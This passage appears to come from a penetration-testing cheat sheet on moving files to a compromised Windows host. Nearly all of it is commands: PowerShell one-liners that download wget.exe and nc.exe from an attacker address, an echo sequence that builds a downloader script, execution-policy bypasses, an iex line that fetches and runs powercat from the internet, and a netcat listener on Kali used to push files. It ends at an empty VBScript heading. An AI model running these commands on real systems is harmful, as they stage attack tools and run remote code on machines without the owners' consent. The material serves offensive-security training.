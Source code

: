 Windows machine

``` bash
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://ip/wget.exe','C:\Users\Public\Desktop\wget.exe')"
```

=== "ps1 script"

	``` bash
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	```

=== "wget.ps1.txt"

	``` bash
	echo $webclient = New-Object System.Net.WebClient >> wget.ps1
	echo $url = "http://ip/nc.exe" >> wget.ps1
	echo $file = "nc.exe" >> wget.ps1
	echo $webclient.DownloadFile($url,$file) >> wget.ps1
	```

### Powercat

=== "Bypass policy"

	``` powershell
	Set-ExecutionPolicy Unrestricted
	```

=== "Download and execute from internet"

	``` powershell
	iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
	```

=== "Local machine"

	``` powershell
	. .\powercat.ps1
	```

Kali machine

``` bash
sudo nc -lnvp 443 > powercat.ps1
```

Windows machine

``` bash
powercat -c ip -p 443 -i C:\Users\Public\powercat.ps1
```

### [VBScript](http://www.ericphelps.com/scripting/samples)

=== "command"
